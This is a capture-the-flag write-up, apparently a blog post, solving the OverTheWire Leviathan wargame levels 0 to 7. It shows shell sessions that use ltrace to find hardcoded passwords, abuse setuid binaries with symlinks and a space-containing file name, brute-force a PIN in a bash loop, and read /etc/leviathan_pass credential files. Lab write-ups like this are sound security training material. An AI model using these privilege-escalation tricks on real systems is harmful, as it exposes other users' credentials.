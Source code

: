 ```yaml
---
layout:     post
title:      "Overthewire.org - Leviathan"
subtitle:   "Write-Up"
date:       2016-07-25 10:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we're gonna give a try Leviathan wargame which requires some common sense and a little bit of knowledge about Unix commands.</p>
<p>Let's get started!</p>

<b>0 --> 1</b>
<p>First thing is to login into the leviathan0 account using SSH. Then we're gonna take a look at home directory using <i>ls -la</i> command.</p>
{% highlight bash %}
leviathan0@melinda:~$ ls -la
total 24
drwxr-xr-x   3 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
drwxr-x---   2 leviathan1 leviathan0 4096 May 15 02:15 .backup
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
{% endhighlight %}
<p>Rresults show us an hidden backup folder, containing a file called bookmarks.html.</p>
{% highlight bash %}
leviathan0@melinda:~$ cd .backup
leviathan0@melinda:~/.backup$ ls -la
total 140
drwxr-x--- 2 leviathan1 leviathan0   4096 May 15 02:15 .
drwxr-xr-x 3 root       root         4096 Nov 14  2014 ..
-rw-r----- 1 leviathan1 leviathan0 133259 Nov 14  2014 bookmarks.html
{% endhighlight %}
<p>Searching the file manually will probably take us years so why not to grep string with a word password?</p>
{% highlight bash %}
leviathan0@melinda:~/.backup$ cat bookmarks.html | grep password

<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is *******" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
{% endhighlight %}

<b>1 --> 2</b>
<p>Once again let's view the files in the main directory, but now we have a file called check.</p>
{% highlight bash %}
leviathan1@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan2 leviathan1 7493 Nov 14  2014 check
{% endhighlight %}
<p>After running, it asks us for a password, maybe running <i>ltrace</i> will find anything useful.</p>
{% highlight bash %}
leviathan1@melinda:~$ ./check
password: password
Wrong password, Good Bye ...
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
printf("password: ")                                                                                    = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: password
)                                                            = 112
getchar(0x8048680, 47, 0x804a000, 0x8048642)                                                            = 97
getchar(0x8048680, 47, 0x804a000, 0x8048642)                                                            = 115
strcmp("pas", "sex")                                                                                    = -1
puts("Wrong password, Good Bye" ...Wrong password, Good Bye ...
)                                                                    = 29
+++ exited (status 0) +++
{% endhighlight %}
<p>Yeah, it's comparing our password with 'sex' using strcmp function, so 'sex' is desired password.</p>
{% highlight bash %}
leviathan1@melinda:~$ ./check
password: sex
$ cat /etc/leviathan_pass/leviathan2
*******
{% endhighlight %}
<p>After entering pass correctly, we are given a shell where we can view the password for the next level.</p>

<b>2 --> 3</b>
<p>We are given a printfile file, which usage is printing files (obviously :D). We can try, and check a simple trick.</p>
{% highlight bash %}
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile

leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
{% endhighlight %}
<p>:(</p>
<p>Now we have to try something different. Firstly create a directory in /tmp.Next step will be creating 2 files: first called pass which is symbolic link to our password file and then file called pass qwer, you can name them however you want but the trick is that second file needs to have first file name in the first half of the second one like this.</p>
{% highlight bash %}
leviathan2@melinda:~$ mkdir /tmp/w3nditor
leviathan2@melinda:~$ cd /tmp/w3nditor
leviathan2@melinda:/tmp/w3nditor$ ln -s /etc/leviathan_pass/leviathan3 ./pass
leviathan2@melinda:/tmp/w3nditor$ touch pass\ qwer
{% endhighlight %}
<p>Then we can use our printfile on previously created pass qwer. What the trick does, is that it firstly allows us to access because the pass qwer exists and then cat command treats them as two seperate files so we can view the password through previously created symbolic link.</p>
{% highlight bash %}
leviathan2@melinda:~$ ./printfile /tmp/w3nditor/pass\ qwer
*******
/bin/cat: qwer: No such file or directory
{% endhighlight %}

<b>3 --> 4</b>
<p>In this one, we get file called level3 that after executing asks us for a password.</p>
{% highlight bash %}
leviathan3@melinda:~$ ls -la
total 32
drwxr-xr-x   2 root       root       4096 Mar 21  2015 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan4 leviathan3 9962 Mar 21  2015 level3
leviathan3@melinda:~$ ./level3
Enter the password> password
bzzzzzzzzap. WRONG
{% endhighlight %}
<p>Let’s once again use ltrace to check for anything useful.</p>
{% highlight bash %}
leviathan3@melinda:~$ ltrace ./level3
__libc_start_main(0x80485fe, 1, 0xffffd7a4, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                       = -1
printf("Enter the password> ")                   = 20
fgets(Enter the password> password
"password\n", 256, 0xf7fc9c20)             = 0xffffd59c
strcmp("password\n", "snlprintf\n")              = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                       = 19
+++ exited (status 0) +++
{% endhighlight %}
<p>In this level, it uses strcmp between our string and ‘snlprintf’.</p>
{% highlight bash %}
leviathan3@melinda:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
*******
{% endhighlight %}
<p>And it works perfectly!</p>

<b>4 --> 5</b>
{% highlight bash %}
leviathan4@melinda:~$ ls -la
total 24
drwxr-xr-x   3 root root       4096 Nov 14  2014 .
drwxr-xr-x 172 root root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root root        675 Apr  9  2014 .profile
dr-xr-x---   2 root leviathan4 4096 Nov 14  2014 .trash
leviathan4@melinda:~$ cd .trash
leviathan4@melinda:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Nov 14  2014 .
drwxr-xr-x 3 root       root       4096 Nov 14  2014 ..
-r-sr-x--- 1 leviathan5 leviathan4 7425 Nov 14  2014 bin
leviathan4@melinda:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
{% endhighlight %}
<p>From this one, we get a binary string which after converting to ASCII gives: ******* – password for next level.</p>

<b>5 --> 6</b>
<p>Now we get a file that is somehow looking for /tmp/file.log</p>
{% highlight bash %}
leviathan5@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7634 Nov 14  2014 leviathan5
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
{% endhighlight %}
<p>Creating link in /tmp/file.log to leviathan pass let’s us see a password.</p>
{% highlight bash %}
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
*******
{% endhighlight %}

<b>6 --> 7</b>
<p>This time we’ve got executable which asks for a 4 digit code.</p>
{% highlight bash %}
leviathan6@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan7 leviathan6 7484 Nov 14  2014 leviathan6
leviathan6@melinda:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@melinda:~$ ./leviathan6 1111
Wrong
{% endhighlight %}
<p>Only way to get access will be brute forcing the pass code.  We can use any programming language but this time I’ll try to write simple bash script.</p>
{% highlight bash %}
leviathan6@melinda:~$ for i in {0000..9999}; do ./leviathan6 $i; echo $i; done

Wrong
7119
Wrong
7120
Wrong
7121
Wrong
7122
$ cat /etc/leviathan_pass/leviathan7
*******
$
{% endhighlight %}
<p>And here we go! We’ve got the password!</p>

<p>Thanks for the challenge! Hope you enjoyed solving this problems as much as I had.</p>
<p>~Stay safe!</p>
